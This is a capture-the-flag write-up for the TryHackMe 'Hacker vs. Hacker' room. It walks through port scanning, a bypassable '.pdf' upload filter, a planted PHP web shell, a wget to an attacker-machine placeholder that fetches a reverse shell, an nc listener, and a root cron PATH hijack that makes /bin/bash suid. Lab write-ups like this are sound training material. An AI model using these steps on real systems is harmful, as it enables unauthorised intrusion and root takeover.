

# Hacker vs. Hacker

## Room Information

- **Room URL:** [https://tryhackme.com/room/hackervshacker](https://tryhackme.com/room/hackervshacker)
- **Date Completed:** 2025-12-05

## Overview
Someone has compromised this server already! Can you get in and evade their countermeasures?

## New Tools
### rustscan
rustscan is a faster port scanning tool than nmap.

[https://github.com/RustScan/RustScan](https://github.com/RustScan/RustScan)

```shell
$ rustscan -a 10.49.186.68
┌──(kali㉿docker-desktop)-[~/tryhackme/06_hacker_vs_hacker]
└─$ rustscan -a 10.49.131.118 | tee rustscan.log
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
You miss 100% of the ports you don't scan. - RustScan

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.49.131.118:22
Open 10.49.131.118:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -e eth0" on ip 10.49.131.118
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-05 04:11 UTC
Initiating Ping Scan at 04:11
Scanning 10.49.131.118 [4 ports]
Completed Ping Scan at 04:11, 0.02s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:11
Completed Parallel DNS resolution of 1 host. at 04:12, 13.01s elapsed
DNS resolution of 1 IPs took 13.01s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 04:12
Scanning 10.49.131.118 [2 ports]
Discovered open port 22/tcp on 10.49.131.118
Discovered open port 80/tcp on 10.49.131.118
Completed SYN Stealth Scan at 04:12, 0.16s elapsed (2 total ports)
Nmap scan report for 10.49.131.118
Host is up, received reset ttl 64 (0.032s latency).
Scanned at 2025-12-05 04:12:06 UTC for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.24 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)
```

## wfuzz

wfuzz is a tool that replaces any reference to the FUZZ keyword by the value of a given payload.

`FUZZ` is the keyword that will be replaced by the value of the payload.

[https://github.com/xmendez/wfuzz](https://github.com/xmendez/wfuzz)

- `-c` option is used to color the output.
- `-z` option is used to specify the payload.
- `--hh` option is used to hide responses with the specified code/lines/words/chars.

```shell
$ wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hh 18 http://10.49.131.118/cvs/shell.pdf.php?FUZZ=id
```

## Reconnaissance
### Scan ports
```shell
$ rustscan -a 10.49.131.118 | tee rustscan.log

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

### Access the website

[http://10.49.131.118](http://10.49.131.118)



I found another page when uploading a file from the website.


I can see the following comments in the code of the upload page.

```html
Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

If you are a hacker, you can bypass the filtering by uploading a file with a .pdf extension like `test.pdf.php` and execute any PHP code.

### Find malicious files
Malicious files has php files contains `.pdf` in the name.

```shell
$ gobuster dir -u http://10.49.131.118 -w /usr/share/wordlists/dirb/big.txt -x pdf.php -t 50 | tee gobuster.log
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.pdf.php    (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.pdf.php    (Status: 403) [Size: 278]
/shell.pdf.php        (Status: 200) [Size: 18]
===============================================================
Finished
===============================================================
```

### Review the shell.pdf.php
```shell
$ wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hh 18 http://10.49.131.118/cvs/s

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.49.131.118/cvs/shell.pdf.php?FUZZ=id
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000179:   200        2 L      5 W        72 Ch       "cmd"

Total time: 0
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 0
```

`cmd` query parameter is used to execute commands.


## Exploitation
### Set reverse shell code

```shell
$ cp /usr/share/webshells/php/php-reverse-shell.php ./
$ phthon3 -m http.server 8000
```

Inject the reverse shell code into the server by following url.

http://10.49.131.118/cvs/shell.pdf.php?cmd=wget%20http://<attack-machine-ip>:8080/php-reverse-shell.php

### Access through the reverse shell

Launch the reverse shell server.

```shell
$ nc -lnvp 1234
```

Execute the reverse shell code by visiting the following url.

http://10.49.131.118/cvs/php-reverse-shell.php

## Get user flag


## Privilege Escalation
### Check bash history

Check bash history to see the actions of the attacker.

- create the cron job named `persistence`
- modify the password to `thisistheway123`

```shell
$ cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

### See the cron job

This cron job works to kill the tty shell of the other users.

If I create a file named `pkill` in the `/home/lachlan/bin` directory, the cron job will execute the command with root privilege.

```shell
$ cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

### Create the pkill file

Create the pkill file in the `/home/lachlan/bin` directory. This file is executed through the cron job and change the `/bin/bash` mode to suid.

Copy the commands to paste in the tty shell immediately because the cron job will disconnect you soon after connecting.

```shell
$ ssh lachlan@10.49.131.118
$ echo "chmod +s /bin/bash" > /home/lachlan/bin/pkill
$ chmod +x /home/lachlan/bin/pkill
```

### Login as root

```shell
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
$ bash -p
whoami
root
```

## Get root flag


## Tools Used

- rustscan
- gobuster
- wfuzz
- nc
- php-reverse-shell.php

## Completed


## References
- [https://www.youtube.com/watch?v=4VLISGK_K2I](https://www.youtube.com/watch?v=4VLISGK_K2I) by しいたま@サイバーセキュリティ

